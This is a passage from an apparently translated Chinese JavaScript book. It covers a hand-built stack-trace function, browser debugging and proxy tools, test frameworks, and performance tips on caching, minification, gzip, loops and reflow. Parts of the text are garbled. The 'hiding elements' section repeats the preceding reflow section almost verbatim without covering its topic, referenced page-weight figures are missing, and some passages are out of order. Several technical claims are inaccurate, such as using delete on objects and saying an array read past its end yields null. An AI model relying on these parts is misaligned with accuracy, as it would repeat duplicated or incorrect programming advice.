这次，我不再仅仅弹出 `err.stack`，而是将调用一个名为 `getStackTrace()` 的函数，它将爬取执行链并在途中构建每个函数及其参数的字符串。首先，我将创建一个壳函数 `getStackTrace()`，它根据功能的可用性进行分支：

```javascript
function getStackTrace(errObj) {
    return errObj.stack || pieceTogetherStack(getStackTrace.caller);
}
```

在这里我检查 `stack` 属性的可用性，如果存在则返回它。如果不存在，我调用另一个名为 `pieceTogetherStack()` 的函数并将 `caller` 传递给该函数：

```javascript
function pieceTogetherStack(funct) {
    if (!funct)
        return "";
}
```

这基本上意味着如果传递给 `pieceTogetherStack()` 的调用者是 `null`，则停止递归并返回一个空字符串。接下来，我想创建一个函数从 `caller` 属性中提取函数名：

```javascript
function functionName(fn) {
    if (/function (\w+)/.test(fn.toString()))
        return RegExp.$1;
    return "";
}
```

我现在可以调用它来从 `caller` 获取函数名了：

```javascript
var res = functionName(funct) + "";
```

然后我想遍历参数并组合成一个发送给它的参数字符串：

```javascript
for(var i = 0; i < funct.arguments.length; i++) {
    res += funct.arguments[i].toString();
    if (i+1 < funct.arguments.length) res += ", ";
}
```

最后，我会关闭 `res` 并再次沿链向上递归：

```javascript
return res + "\n" + pieceTogetherStack(funct.caller);
```

当它到达末端时，它将返回一个空字符串，结果看起来像：

```
funcC(40)
funcB(20)
funcA(10)
```

整个函数如下：

```javascript
function getStackTrace(errObj) {
    return errObj.stack || pieceTogetherStack(getStackTrace.caller);
}

function pieceTogetherStack(funct) {
    if (!funct)
        return "";

    function functionName(fn) {
        if (/function (\w+)/.test(fn.toString()))
            return RegExp.$1;
        return "";
    }

    var res = functionName(funct) + "";

    for(var i = 0; i < funct.arguments.length; i++) {
        res += funct.arguments[i].toString();
        if (i+1 < funct.arguments.length) res += ", ";
    }

    return res + "\n" + pieceTogetherStack(funct.caller);
}
```

## 调试工具

### Firebug

Firebug 绝对是浏览器调试世界中的“法拉利”。Joe Hewitt 开发的 Firebug ([`www.getfirebug.com`](http://www.getfirebug.com)) 一直以来一直是浏览器内调试的规则改变者。它具有无与伦比的可用性和方便的模块化架构，允许第三方组件开发者在 Firebug 之上开发自己的插件。Firebug 唯一的缺点是它仅适用于 Firefox。这导致 Firefox 成为 Web 开发人员的首选浏览器。

Firebug 拥有多样化的功能集：

- **文档检查器**。点击可以检查 HTML 元素（查看图 24-1），或使用鼠标或键盘遍历树。DOM 树反映的是渲染后的 HTML，而非原始文档。
- **CSS 检查器**。当你检查 DOM 元素时，可以决定哪些 CSS 样式应用于该节点以及应用的顺序（计算后的样式）。你可以随时开启或关闭样式，或修改它们，并立即在文档中看到结果。
- **布局检查器**。以尺子级的精度查看页面上 HTML 元素的精确像素坐标和尺寸。
- **脚本和 CSS 文档浏览器**。查看附加到页面的所有内联和外部脚本以及 CSS 文档。
- **控制台**。向控制台编写调试信息，或通过键盘即时执行 JavaScript。你也可以使用控制台探索对象的内容。
- **代码步进器**。设置断点或单步执行源码，并迭代地查看页面上的效果。
- **监视**。监视对象或表达式的值随时间的变化。
- **DOM 检查器**。除了文档浏览器外，你还可以探测 DOM 并查看对象或 HTML 元素的所有成员变量。
- **网络活动**。查看所有网络请求的甘特图，包括 Ajax 请求、图像下载以及下载的外部 JavaScript 和 CSS 文件。定位损坏的请求，并查看服务器 500 错误的输出（查看图 24-2）。
- **可分离窗口**。你可以将 Firebug 作为浏览器内部的框架查看，也可以将其分离并全屏显示。


开发者花费大量时间使用 Firebug 的控制台功能，它让你检查对象，最重要的是记录程序消息。


#### 断点与控制台日志

除了优秀的浏览器界面外，Firebug 还提供了一个小型 API 来记录消息甚至设置断点。要向控制台记录消息，可以使用 `console` 对象以及 `log()`、`warn()` 或 `error()` 之一。例如：

```javascript
console.log("is a log message.", {a:true, b:232, c:window});
console.warn("Lookout!");
console.error("was a problem with:", {something:true});
```

此示例的输出可以在图 24-3 中看到。注意，你可以向 `log` 语句传递任意数量的参数。在 DOM 标签页中，只需点击即可使用鼠标检查对象。


要设置会导致 JavaScript 执行暂停并允许你单步执行代码行以及监视变量随时间变化值的断点，请使用 `debugger` 关键字：

```javascript
var a = 1;
debugger;
// 以下代码行可以单步执行
for (var i = 0; i < 10; i++) {
    var b = i/2;
}
// 等
```

如果你喜欢 Firebug 但需要在其他浏览器中进行测试（大多数人都是如此），那么总有 Firebug Lite，我现在将介绍它。

#### Firebug Lite

Firebug 项目的一部分是一个 JavaScript 组件，用于模拟针对 Internet Explorer、Opera 和 Safari 等其他浏览器的 Firebug 插件的大部分功能。“Lite”版本的实现得益于你嵌入页面中的一个脚本：

```html
<script type="text/javascript" src="/path/to/firebug/firebug-lite.js"></script>
```

令人惊讶的是，Firebug Lite 具有 Firebug 插件的许多功能，例如 DOM 检查器（查看图 24-4）、控制台、脚本和 CSS 文档浏览器，以及用于 XHR 对象的精简版。


由于某些浏览器已经提供了 `console.log()` 等功能，在运行 Lite 时你需要使用 `firebug.d.console` 对象：

```javascript
firebug.d.console.log("test");
```

要检查节点，使用 `firebug.inspect()`：

```javascript
firebug.inspect(document.body);
```

为了提供 Ajax 探测功能，你需要让 Lite 能够访问 XHR 对象：

```javascript
var req = new XMLHttpRequest();
firebug.watchXHR(req);
```

Firebug Lite 还会检测 Firebug 插件是否存在，以便在 Firefox 中使用。

### Internet Explorer 开发工具

Firefox 并不是唯一的基于浏览器的调试解决方案。微软的 Internet Explorer 开发工具最初作为下载插件在 IE7 中引入，现在内置在 IE8 中。它共享了 Firebug 的许多优点：

- 代码步进
- CSS 和 JavaScript 浏览器
- 文档资源管理器
- 监视、断点和调用栈查看器
- 消息控制台（查看图 24-5）
- 代码性能分析器

该工具在帮助你定位代码错误方面有时实际上更好，因为它处理序列化 JavaScript（当它们合并在一行时）比 Firebug 好，并能带你进入代码的精确位置。然而，Firebug 正在不断改进，推测可能会变得更好。该工具的一些弱点包括控制台糟糕（你无法从控制台直接检查对象）、一些稳定性问题（它偶尔会崩溃浏览器）以及 CSS 检查器差。除了这些，对于在 IE 中测试你的应用程序这是一个非常有价值的工具。


### Opera 的 Dragonfly

Opera 一直在开发自己的调试工具，称为 Dragonfly。虽然 Opera 不是最流行的浏览器，但它在移动领域拥有相当大的地位，特别是在移动手机和 Nintendo Wii 上。它拥有 Firebug 的许多相同功能：

- JavaScript 调试器
- DOM 检查器
- CSS 检查器
- 用于记录和测试 JavaScript 的控制台
- 允许直接在移动设备上调试的代理

这些功能在实践中最有趣的是代理工具或“远程调试器”。通过它，你可以连接到网络上的设备或计算机并远程控制调试网页。网页将继续在移动设备上显示，但你可以在本地 Dragonfly 环境中进行更改并使其在设备上远程执行。你也可以这样检查 DOM 甚至修改 CSS。

### 代理调试器

另一种调试工具是 `proxy trace`（代理跟踪）。代理工具允许你检查用于页面下载和 Ajax 请求的原始网络流量。在某种程度上，像 Firebug 这样的工具提供了网络流量嗅探，但没有什么能比得上微软的 `Fiddler` ([`www.fiddlertool.com`](http://www.fiddlertool.com)) 这种功能完备的代理工具。Fiddler 在你的计算机上创建一个 HTTP 代理，作为外部 Web 服务器和你的浏览器之间的中间人。你可以通过查看日志中的流量来解决你遇到的问题。

当你启动 Fiddler 时，它会自动配置 Internet Explorer 的代理设置以便立即工作。对于 Firefox 和其他浏览器，你必须手动设置代理，将其指向端口 `8888`（默认）上的 `127.0.0.1`。像 `FoxyProxy` 或 `SwitchProxy` 这样的插件可以加速开启和关闭预配置代理设置的过程，这样你就不需要每次都手动操作。在最新版本的 Fiddler 中，你可以使用 `FiddlerHook` 扩展来实现相同的功能。

Fiddler 提供了以下有用功能：

- 详细检查从浏览器执行的所有 HTTP 请求，包括所有图像（请参见图 24-6）。
- 解码 GZIP 的请求以查看其原始内容。
- 使用表单数据模拟 Ajax 请求。
- 测量应用性能并在各种连接上获取下载时间估值。
- 拦截 HTTP 请求并修改它们以插入你自己的 JavaScript 文件或移除其他文件。
- 模拟网络资源并对 HTTP 请求提供自动响应，而不是将其转发到服务器。

本质上，Fiddler 是一个完全可编程的分析工具，提供了关于浏览器和服务器之间通信的准确信息，用于调试 Web，不仅用于解决 Ajax 问题，还用于在生产环境中测试问题的解决方案或功能。


### Charles Proxy Debugger

如果你使用的是 Mac，你将无法使用 Fiddler，但你还有许多其他工具可以使用。其中之一就是 `Charles Proxy Debugger` ([`www.charlesproxy.com`](http://www.charlesproxy.com))。Charles 同时适用于 Mac 和 PC，它提供了与 Fiddler 相似的一些功能，但不具备可编程性。然而，它可以检查 HTTPS 请求并告诉你关于 Flash AMF 请求的大量信息，而 Fiddler 是做不到的。Charles 是共享软件，一段时间后你必须为其支付费用（或者忍受偶尔出现的烦人消息）。单用户许可证费用为 50 美元。

### Safari Web Inspector

多年来，WebKit 提供了在浏览器内调试 JavaScript 的几种方法。这种技术的最新演进是 Safari 4 部分的 Web Inspector，它在易用性和强大方面可以与 Firebug 竞争。一个功能完备的 DOM 检查器（请参见图 24-7）提供了对 HTML 的方便浏览和编辑。“Resources”标签页提供了与 Firebug 中的 Net 标签页类似的功能，具有下载时间的甘特图视图，以及一个显示不同资源类型的总成本随总下载时间变化情况的图表。代码性能分析器可以告诉你哪些 JavaScript 操作运行时间最长，数据库浏览器允许你检查 HTML5 SQLite 数据库的内容（该内容出现在第 18 章中）。


## 测试

任何优秀开发者工具箱的一个基本组成部分都是测试工具。JavaScript 有几个非常好的测试框架可用，取决于你的偏好：

- **FireUnit** ([`fireunit.org`](http://fireunit.org))。作为 Firebug 的扩展，它允许你在页面内运行测试并将结果与已知良好状态进行比较。支持正则表达式比较和详细日志。这绝对是所有单元测试框架中最轻量级的方法，但可能非常适合许多开发者。
- **Selenium** ([`seleniumhq.org`](http://seleniumhq.org))。一个用 Java 编写的免费且完备的 Web 应用测试套件，能够重放 JavaScript 事件并测量结果。
- **JSUnit** ([`www.jsunit.net`](http://www.jsunit.net))。原始 JavaScript 单元测试器。非常适合 JavaScript 的自动化测试。然而，它不适用于通用 Web 应用测试。

虽然有时构建和运行测试看起来工作量很大，但即使使用 FireUnit 进行最基本的测试，也能实现很多目标。除了知道程序何时出现问题之外，良好的测试覆盖还能让你知道距离完成还有多远的路程。在较大的团队协作时，测试尤为重要，特别是当团队并非所有成员都是 JavaScript 专家开发者时。

## 总结

JavaScript 调试不再是一门黑术。从结构上来说，该语言具备了促进健壮故障排除和错误捕获所需的所有要素。这也支持了丰富的调试工具生态系统的发展。在本章中，我介绍了调试这一主题。其中，我还谈到了：

- 语言支持多种错误类型，它们都派生自核心对象 `Error`。
- 你可以使用关键字 `throw` 来抛出你自己的自定义错误。
- 你可以使用 `try..catch` 和可选的 `finally` 语句在错误“冒泡”到浏览器之前对其进行捕获。
- Mozilla 浏览器支持作为 `Error` 对象一部分原生堆栈跟踪。我向你展示了如何为没有此功能的其他浏览器构建自己的堆栈跟踪。
- 我查看了几个强大的调试工具，包括浏览器内置调试器如 `Firebug`、Internet Explorer 开发者工具栏和 `Dragonfly`。你学习了如何使用这些工具来追踪页面中的 JavaScript、DOM 和 CSS 问题。
- 我还简要提到了代理风格的调试器，它们可以监控在你的浏览器和远程服务器之间传输的 HTTP 流量。这些工具的示例包括 `Firebug`、`Microsoft Fiddler` 和 `Charles Proxy Debugger`。
- 我简要提到了 JavaScript 测试主题，并指出了一些实用的免费包，可以为单元测试添加到你的工具库中。

在最后一章中，我将论述一些影响 JavaScript 性能的问题。我将向你展示哪些类型的内容会影响网页性能，并建议一些最佳实践以最大限度地提高代码运行速度。

# 25 性能优化

随着你专业知识增长以及在应用程序中增加 JavaScript 的使用，你将越来越多地思考如何从浏览器中榨取最大的性能。当页面加载了大量沉重的 DOM 操作和用户需要下载的大型 JavaScript 文件时，性能变成了一个令人关注的话题。作为开发者，你总是被要求实现高性能这一抽象且高远的目标，但即使在没有用户或客户在背后催促的情况下，你的目标也应该是使用最佳实践让你的脚本尽可能快速。解决这个问题有许多方法。其中一些方法非常简单且影响巨大，例如使用 `gzip` 压缩；而另一些方法则更加复杂且细微，例如改进某些 DOM 操作的性能。这就是为什么优秀的 JavaScript 开发者有时被视为工匠，将 DOM、CSS、HTML 和脚本交织在一起，形成一种既对用户快速响应又具吸引力的方式。

这本书已经提供了你成为优秀开发者所需的许多工具，随着 `SquirrelFish Extreme` 和 `V8` 等技术的开始采用，浏览器在应用开发方面已经比以往任何时候都经过了优化。在此过程中，我一直提醒你针对特定方法获取最佳性能的实践，但总有办法可以通过调整循环或动画来做得更好。优化是一项永无止境的任务，对于浏览器脚本尤其如此，但并不是说它毫无意义。它恰恰也是一项随着时间的推移你会变得越来越好的活动。本章提到的一些技巧将逐渐变成本能。

作为 JavaScript 开发者，你可能会遇到三类一般的性能问题：

- **下载速度**：某些非常“重”的网站如 [CNN.com](http://CNN.com) 需要长时间才能下载，特别是使用拨号上网时。图像、CSS、JavaScript 和 HTML 都会触发单独的 HTTP 请求，并都有自己需要应对的延迟。驱动感知下载速度有两个因素：延迟和总时间。旧浏览器每次只允许几个请求通过，但新浏览器增加了这些限制。
- **代码性能**：有时答案很简单，就是代码效率低下，尽管这通常最发生在非常复杂的 JavaScript 组件中。
- **DHTML 性能**：这往往比代码本身的效率更成为性能问题的常见原因，尽管两者往往会相互影响。文档对象模型（DOM）的处理可能非常昂贵（从性能角度来看），特别是当页面开始加载许多事件处理程序大量的 HTML 时。

用户*感知*到的性能并不总是对应于速度。例如，某些东西对用户来说可能很慢，但真正让他们沮丧的是他们在等待时无法与页面进行交互。如果样式表渲染需要很长时间，页面看起来下载就需要很长时间，虽然提高样式表在下载顺序中的位置可能不会提高整体下载速度，但足以满足用户。JavaScript 开发者最终为了提高性能所做的改进，更多与改变性能感知有关。在接下来的几个章节中，我将讨论你可以用于提高真实和感知性能的多种策略。

## 减少页面权重

严格来说，页面权重是指显示网页时下载的字节总数，包括核心 HTML 文档、所有外部 CSS 和 JavaScript 文件，以及任何图像或 Flash 电影。对于某些网站来说，这确实会累积。考虑一下像 [CNN.com](http://CNN.com) 这样大型网站主页的明细：


CNN 的总页面权重为 921,310 字节，接近一兆字节。如果所有这些资源都在单个请求中同时连续下载，你可能会期望这样的下载时间：


实际上，有效下载速度比这慢得多，因为数据分散在许多小文件中（在本例中为 189 个），而且你必须考虑另外两个因素：延迟（即服务器响应请求所需的时间）以及浏览器一次向服务器发起的最大连接数。浏览器会严格限制在时间内向特定主机发起的并发请求数量。这是为了减轻 HTTP 服务器的负担。这些限制在过去几年有所增加，但仍然很低：


如你所见，存在很大差异，但总体呈上升趋势。大多数浏览器现在允许在任何时刻与单个服务器建立四到六个连接。这对于下载性能提供了可以利用的明确启示。

### 后加载 JavaScript

位于 HTML 页面 `<head>` 中的任何 JavaScript 文件都会在页面其余部分加载之前被完整下载。因此，如果你可以将加载 JavaScript 文件推迟到页面加载之后，它将极大地提高感知性能，允许页面加载而不是等待外部脚本请求。在第 2 章中，我演示了如何使用动态 `<script>` 标签请求来实现这一点。

### 缓存

通常情况下，在 JavaScript 文件被下载一次后，浏览器就不会在用户浏览同一网站的其他页面时反复请求该文件。不过，你必须采取以下几个步骤来确保你的 JavaScript 和 CSS 资源被正确缓存：

- 将它们外部化。确保所有的 JavaScript 和 CSS 都包含在从页面单独下载的外部文件中。
- 对于像大多数 JavaScript 文档之类的静态资源，将 `Expires` 头部设置为 `"Never expire"` 或某个合理的未来日期，例如 `"Thu, 8 Apr 2010 00:00:01 GMT"`。
- 对于像 ASP.NET HTML 页面之类的动态资源，请改用 `cache-control` 头部并为内容设置一个合理的超时时间。实现此点的常用方法是使用类似 `"max-age=1000"` 的设置，这意味着 1000 秒的超时。

另一个与缓存相关的技巧是针对所有外部文件请求使用相对 URL（`/jsfiles/js.js`），而不是绝对 URL（`http://mysite.com/jsfiles/js.js`）。每当你使用一次绝对引用时，浏览器都会强制对该 URL 字符串进行 DNS 查找，而这是非常耗时的。

### 图片精灵

由于延迟以及对单个主机的连接数限制，通常减少下载的文件数量是一个极好的主意。第 16 章中提到的改进 DHTML 性能的技巧也是提高页面下载时间的绝佳方法。这就是激进地使用图片精灵，而不是下载许多独立的图片。当你对大部分图像使用精灵技术时，也能提高初始页面加载时间，因为浏览器在页面其他部分下载并显示*之后*，才会下载 CSS 背景。

### JavaScript 压缩与合并

许多开发者使用的另一个技巧是在部署到生产环境之前，对所有的 JavaScript 进行压缩和合并。压缩是移除 JavaScript 文件中所有不必要的空格，并在不改变文件功能的情况下缩短变量和函数名的过程。考虑以下函数：

```javascript
function adder(Number1, Number2, Number3) {
    addTwoNumbers = function(num1,num2) {
        return num1+num2;
    };
    return addTwoNumbers(addTwoNumbers(Number1, Number2), Number3);
}
```

压缩工具可能会查看这个诚然愚蠢的函数，并意识到内部变量在函数外是不需要的，因此它们可以被重命名为更短的名字。所有的制表符和回车也可以删除：

```javascript
function adder(a,b,c){d=function(e,f){return e+f};return d(d(a,b),c)}
```

这减少了大约 50% 表达相同功能所需的字节数，且没有改变*任何*结构。压缩通常是一个自动化过程，有许多工具可以为你完成这项工作。你甚至可以将这些工具中的一些构建到 Ant 任务或其他部署脚本。

- 某些压缩工具依赖于格式精确的 JavaScript，以便在那些通常是可选的地方无不地使用分号来工作。你可能想要使用由 Douglas Crockford 编写的 `JSLint` 工具在压缩之前检查你的文件。
- 以下是一些免费的 JavaScript 压缩工具：
  - JSMin (`http://www.crockford.com/javascript/jsmin.html`)
  - Dojo ShrinkSafe (`http://dojotoolkit.org/docs/shrinksafe`)
  - YUI Compressor (`http://developer.yahoo.com/yui/compressor/`)
  - Dean Edwards Packer (`http://dean.edwards.name/packer/`)

### gZip 压缩

最未被充分利用的优化技术可能是 gZip 压缩所有的静态内容。似乎开发者往往不是不愿意这样做，就是不知道他们可以这样做。通用想法是在向用户发送之前拦截 HTML 文档等文本内容以及 JavaScript 和 CSS 文件，将它们压缩为 gZip 二进制文件，打上 gZip 头部，*然后*将其传输给用户。绝大多数现代浏览器（包括 Internet Explorer、Safari、Opera、Firefox、Netscape 和 Chrome）都能轻松解码 gZipped 的内容，而用户完全不知道这正在发生。像 IIS 和 Apache 这样的现代 Web 服务器内置了此功能，只需要开启即可。

到目前，gZip 对加速下载时间的效果比任何其他技术都有效。为了让你直观感受，请再次查看经过 JavaScript 压缩和 gZip 压缩后的 CNN.com：


尽管最后页面仍然很沉重，但这两种方法的结合使得 gZip 成为任何高流量或高负载 Web 应用程序必修之路。

### 内容分发网络

如果你每天处理大量的页面访问，并且有相当多的图像、JavaScript 和 CSS 文档等静态内容，你可能考虑使用*内容分发网络*（CDN），这是一种提供廉价且快速访问静态内容的服务。以下是列表：

- Amazon S3 and CloudFront
- Akamai
- Mirror Image
- Limelight

## 代码性能分析

JavaScript 非常适合进行代码性能分析，因为它是解释性的。市面上有许多性能分析工具可以告诉你代码的哪些部分正在运行、运行频率如何，以及这些运行时间的变异情况。

### 使用 Firebug 进行性能分析

Firebug 拥有较好的性能分析功能。如图 25-1 所示，性能分析器会告诉你函数在给定期间内运行了多少次，以及该函数占总执行时间的百分比（以及其他相关信息）。它甚至允许你通过点击来*进入*该函数；请仔细观察。

### IE8 JScript 性能分析器

微软也不甘人后，发布了他们用于 Internet Explorer 8 内部运行的 JScript 性能分析工具。它提供了类似的功能，并有一些创新：

- 所有函数的平铺列表，或基于调用方式的函数分级“调用树”视图
- 导出到文件的功能
- 匿名函数的推断名称
- 多个性能报告
- 跨页面的性能分析

如图 25-2 所示，JScript 性能分析器是追踪 IE 性能问题的无价之宝。

### YSlow

YSlow 是 Yahoo! 开发的一款工具，它可以直接插入 Firebug 中并告诉你如何优化页面。它并不是建议你如何改进 JavaScript 代码，而是为你提供页面的全局视角，并给出你迄今为止所读到的那种类型的建议。你可以从 [`developer.yahoo.com/yslow/`](http://developer.yahoo.com/yslow/) 下载 YSlow。

## 代码优化

有很多方法可以加快你的代码，你可以尝试的技术列表每天都在增长。这是 JavaScript 开发的趣味所在之一：它与 DOM 和 CSS 等技术有大量的交集，这意味着有很多方法可以调整你的代码以获得更高的速度。这里是一些专门与 JavaScript 最佳实践相关的技巧。稍后我将讨论 DOM 以及如何加速 DHTML 操作。

### 删除未使用的对象

JavaScript 解释器的一个普遍真理是：分配的内存越多、用对象污染命名空间的情况越多，运行速度就越慢。这在许多语言中都是如此，但对于 JavaScript，特别是当用户使用 Internet Explorer 6 或早期 Firefox 时更是如此。当你完成对一个对象的操作后，使用 `delete` 关键字将其删除是一个好主意。这可以减少内存消耗，避免内存泄漏，并节省垃圾回收器的工作。

```javascript
a = {hello:'world', yah:true};
// 我们不再需要这个
delete a;
```

### 避免执行代码

在第 17 章中，我警告过 `eval()` 潜在是不安全的而且运行极其缓慢。每当你调用 `eval()` 时，即使是隐式的，JavaScript 引擎都必须启动所有机制将字符串解析为执行代码。几乎总是有更安全、更快的方法来完成你正在做的事情。例如，开发者有时使用 `eval()` 的一种方法是将点符号法转换为括号符号法：

```javascript
var identifier = "innerHTML"; // 这种做法是为了
var bodyContents = eval("document.body." + identifier);
```

```javascript
var bodyContents = document.body[identifier];
```

有时开发者在不知道的情况下执行代码。发生这种情况的方法是使用 `Function()` 构造函数：

```javascript
function addCallback(obj, callbackStr) {
    obj.callback = new Function(callbackStr);
}
addCallback(myObj, "alert('done!')");
```

幸运的是，通常不需要这样做。如果你预先知道你的函数要说什么，请使用匿名函数：

```javascript
function addCallback(obj, callbackFn) {
    obj.callback = callbackFn;
}
addCallback(myObj, function() { alert('done!'); });
```

另一个更常见的例子是 `setTimeout()` 和 `setInterval()`：

```javascript
setTimeout("alert('seconds have passed!')", 4000);
```

对于动态脚本请求，有时无法避免使用 `eval()`。这也可以用匿名函数重写：

```javascript
setTimeout(function() { alert('seconds have passed!'); }, 4000);
```

### 局部与全局变量查找

通常，你应该避免在全局作用域中放置变量或函数。导致这种情况有几个原因。首先，全局作用域中的项直到页面生命周期结束（更改页面或关闭窗口）时才会被垃圾回收，在此期间它们占用宝贵的内存。另一个原因是访问性能。在全局作用域中引用变量比在局部作用域耗时更长。例如，考虑以下代码块：

```javascript
function myFunct() {
    a = 2;
    return a + 2;
}
```

当我在 `myFunct()` 内部定义 `a` 时，由于没有使用 `var` 关键字，它实际上是在全局作用域中定义的。当我在下一行引用 `a` 时，解释器扫描局部作用域，找不到该变量，逐渐向上移动作用域树直到找到 `a`，它是全局作用域。处理这种情况更好的方法是直接引用全局作用域：

```javascript
function myFunct() {
    a = 2;
    return window.a + 2;
}
```

或者将变量局部化（这更快）：

```javascript
function myFunct() {
    var a = 2;
    return a + 2;
}
```

### 对象和函数指针

每当你引用一个对象，解释器都必须查找该项存储的位置。对于像这样的长对象链尤其如此：

`objectInstance.subObject.anotherObject.myProperty`

这样的操作如果重复执行会非常低效：

```javascript
function makeFloat(obj) {
    obj.style.position = "absolute";
    obj.style.top = "10px";
    obj.style.left = "10px";
}
```

大多数解释器都处理得不好。更好的方法是缓存你可以使用的引用：

```javascript
function makeFloat(obj) {
    var os = obj.style;
    os.position = "absolute";
    os.top = "10px";
    os.left = "10px";
}
```

这对于作用域外的任何内容也是如此，例如：

```javascript
function a() {}
function b() {}
```

### 避免使用 with 语句

正如我在第 4 章中提到的，`with` 语句有独特的劣势，因为它破坏了 JavaScript 处理作用域的方式，并强制它重路由内部的所有代码。通常情况下，你应该避免使用 `with`：

```javascript
with (document.style) {
    backgroundColor = "green";
    fontSize = "30px";
    fontFamily = "Courier, monospace";
}
```

这可以重写为使用对象：

```javascript
var dbs = document.style;
dbs.backgroundColor = "green";
dbs.fontSize = "30px";
dbs.fontFamily = "Courier, monospace";
```

### 避免在重复操作中使用 try...catch

另一个特殊情况是 `try...catch...finally` 结构，如果你记得第 24 章，它用于捕获异常。除了设置 `try` 块的通用开销外，每当触发 `catch` 时，解释器必须创建一个赋值异常的变量以便在 `catch` 块中访问。该变量在 `catch` 块外部是不可见的，这意味着它在结束时也必须销毁。很少有解释器执行这一点非常高效。只有当你像这样在重复操作中使用它时才会出现问题：

```javascript
function getCoordinates(obj) {
    try {
        // 获取对象的坐标
    } catch (e) {
        // 捕获任何错误
    }
}

var output = "";
for (var i = 0; i < objArray.length; i++)
    output += getCoordinates(objArray[i]);
```

这会稍微改变整体行为，因为任何异常都会中断整个循环而不是继续执行，但这种情况可以通过额外的代码来处理。更好的构造方法是将整个序列封装在单个 `try` 块中：

```javascript
function getCoordinates(obj) {
    // 获取对象的坐标
}

var output = "";
try {
    for (var i = 0; i < objArray.length; i++)
        output += getCoordinates(objArray[i]);
} catch (e) {
    // 处理错误
}
```

### 重复的 for...in 循环

有时，`for...in` 循环可能非常有用，例如当你需要遍历复杂对象时。有时，简单的 `for` 循环就足够了。例如：

```javascript
var myArr = [0, 1, 2, 3, 4];

for (var item in myArr)
    document.write(myArr[item] + ",");
```

由于顺序数组已经有了索引，这段代码可以很容易重写为：

```javascript
for (var i = 0, j = myArr.length; i < j; i++)
    document.write(myArr[i] + ",");
```

当解释器看到 `for...in` 循环时，后台会发生很多操作，包括为对象设置一个枚举器，这是一个开销较大的操作。如果你能避免它，将获得性能提升，特别是当该操作被重复执行时。

### 优化你的循环

有时，大量的 CPU 资源被浪费在循环内部不必要的工作上。在第 3 章中，我提到了这一点：每当循环结束时，它都会重新评估测试条件，你应该让这个操作尽可能高效。例如，遍历数组的 `for` 循环，你通常不需要每次都重新测量数组的长度：

```javascript
for(var i = 0; i < myArray.length; i++) {
    // some code
}
```

如果 `myArray` 在循环过程中是静态的，那么没有必要每次重新检查它的长度。这恰恰是一个非常昂贵的操作。更好的处理方式是：

```javascript
for(var i = 0, x = myArray.length; i < x; i++) {
    // some code
}
```

一种可能更快的迭代数组的方法是完全避免比较：

```javascript
var myArr = ["a", "b", "c", "d"];
for (var i = 0, item = myArr[i]; item; item = myArr[++i]) {
    // some code
    // 现在 item 是你的数组元素
}
```


当迭代器 `i` 到达数组 `myArr` 的末尾时，它将等于 `null` 且测试条件失败，导致循环停止。另一种通用的循环策略是尝试将尽可能的内容移出循环。这里我举例子，为了清晰起见，我会回到慢速循环风格：

```javascript
for (var i = 0; i < myArr.length; i++) {
    var newVal = 0;
    var oldVal = myArr[i].val;
    newVal = oldVal + 1;
}
```

实际上，将对象的实例化放在循环之外速度更快：

```javascript
var newVal = 0;
var oldVal;
for (var i = 0; i < myArr.length; i++) {
    oldVal = myArr[i].val;
    newVal = oldVal + 1;
}
```

这是一个相当刻意的例子，但它展示了减轻重复操作负担的一种简单方法。

# DHTML 优化

现在我将介绍一些加速 DHTML 操作性能的通用技术。通常来说，这是你可能获得最高回报的地方，因为到目前为止 DOM 更新是浏览器内部执行的计算开销最大的操作之一。这里有几点需要注意。

## 重绘与重流

涉及文档对象模型（DOM）时性能的主要驱动因素是浏览器触发重流，以及在较小程度上触发的重绘。在第 13 章中，我简要提到了这些操作的工作原理。回顾一下，重流是指布局引擎重新计算页面全部或部分几何结构。HTML 使用基于流的布局模型，这意味着页面的几何结构可以通过从文档开始到结束的单次遍历计算出来。HTML 表格是少数例外之一，由于适用于非常松散的格式规则，它打破了这一规则并强制进行多次遍历。

重绘略有不同。每当浏览器确定发生了变化，但该变化不需要对几何结构进行任何修改（例如，某些文本的颜色）时，它将执行页面（或部分）的重绘，而不是完全重流。这是一个高效得多的操作。

通常，作为开发者，你的目标应该是尽量减少重流的频率，特别是在像手机内部这种较慢的浏览器上。当然，它们无法完全避免，也不应该尝试去避免它们。动画依赖重流来更新页面外观。没有了重流，页面将是完全静态的。

考虑以下 HTML 代码块：

```html
<h1>Hello World</h1>
<div>
    <p>Lorum Ipsum Dolor Sit Amet.</p>
</div>
<h2>Sub Heading</h2>
```

如果我用 JavaScript 修改 `<div>` 标签的尺寸，它将触发 `<p>` 标签的重流，因为它是 `div` 的子元素。同样，它会触发 `<h2>` 标签的重流，因为它在 DOM 中更靠下。唯一不受影响的是 `<h1>` 标题，因为它与没有任何联系。

同样，如果我更改了 `<p>` 标签的内边距，它将触发 `<div>` 标签的重流（因为它是祖先），以及由于上述原因触发 `<h2>` 重流。

在大多数浏览器中，有很多情况会触发重流：

- 调整窗口大小
- 更改字体
- 添加样式表（或移除样式表）
- 内容变化
- CSS 伪类被触发
- 添加或移除节点
- 测量 `offsetWidth` 或 `offsetHeight`

触发重流的因素包括：

- 改变属性
- 测量元素

## 隐藏元素

有时，通过设置 `display:none` 属性来减少重流的频率，特别是在像手机内部这种较慢的浏览器上。当然，它们无法完全避免，也不应该尝试去避免它们。动画依赖重流来更新页面外观。没有了重流，页面将是完全静态的。

考虑以下 HTML 代码块：

```html
<h1>Hello World</h1>
<div>
    <p>Lorum Ipsum Dolor Sit Amet.</p>
</div>
<h2>Sub Heading</h2>
```

如果我用 JavaScript 修改 `<div>` 标签的尺寸，它将触发 `<p>` 标签的重流，因为它是 `div` 的子元素。同样，它会触发 `<h2>` 标签的重流，因为它在 DOM 中更靠下。唯一不受影响的是 `<h1>` 标题，因为它与没有任何联系。

同样，如果我更改了 `<p>` 标签的内边距，它将触发 `<div>` 标签的重流（因为它是祖先），以及由于上述原因触发 `<h2>` 重流。

在大多数浏览器中，有很多情况会触发重流：

- 调整窗口大小
- 更改字体
- 添加样式表（或移除样式表）
- 内容变化
- CSS 伪类被触发
- 添加或移除节点
- 测量 `offsetWidth` 或 `offsetHeight`

触发重流的因素包括：

- 改变属性
- 测量元素

## 测量元素

每次你使用 `offsetWidth` 和 `offsetHeight` 测量元素大小时，都会触发一次重流，因为浏览器必须重新渲染一切以确定实际尺寸。这无法真正避免，但你应该注意避免多次调用这些属性：

```javascript
var newBoxWidth = (oldBox.offsetWidth / oldBox.offsetHeight) * newHeight;
var newBoxHeight = (oldBox.offsetHeight / oldBox.offsetWidth) * newWidth;
```

相反，尝试缓存这些属性的值：

```javascript
var cachedWidth = oldBox.offsetWidth;
var cachedHeight = oldBox.offsetHeight;
